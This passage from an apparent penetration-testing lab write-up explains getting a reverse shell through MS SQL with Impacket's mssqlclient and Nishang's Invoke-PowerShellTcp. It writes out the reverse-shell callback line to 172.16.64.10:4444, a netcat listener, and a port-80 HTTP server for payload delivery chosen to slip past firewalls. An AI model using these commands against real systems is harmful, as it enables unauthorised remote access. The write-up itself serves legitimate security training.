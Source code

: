 #### MS SQL

We could use Metasploit's mssql modules to login, enumerate, and generate a reverse shell but let's use IMPacket's mssqlclient for another manual attempt at exploitation. 

IMPacket's mssqlclient.py module allows you to connect to the SQL database with valid credentials and execute system commands. We can generate a reverse shell using Nishang's Invoke-PowershellTcp.ps1 script[^mssqlclient-reverse-shell]. However, before we use this Python module, we need to configure a few things.

##### Prepare Reverse Shell

Once we have the Powershell script from the nishang [repository](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), I added the following line to the bottom of the file so that Powershell will execute the command once the script is ran. 

`Invoke-PowershellTcp -Reverse -IPAddress 172.16.64.10 -Port 4444` 

##### Netcat Listener

Create a netcat listener to capture the reverse shell at port 4444. By default, the following command will listen on all interfaces.

```bash
nc -nvlp 4444
```

##### Python Server

A simple HTTP server needs to be stood up so that we can transfer Nishang's Powershell script to the target machine. This will all make more sense below! 

**Note**: The server is running on port 80 to potentially evade any firewalls for uncommon ports as port 80 is typically allowed.

```bash
python3 -m http.server 80
```

Once the above is configured, we can connect the steps above to receive our reverse shell. The initial setup of all these services looks like the following.

![172.16.64.199 Pre-Exploitation Tmux Screen](/assets/img/posts/black-box-pentest-1/172.16.64.199/tmux.jpg)


[^tomcat-creds]: <https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown>.
[^tomcat-exploit]: <https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell>
[^mssqlclient-reverse-shell]: <https://rioasmara.com/2020/05/30/impacket-mssqlclient-reverse-shell/>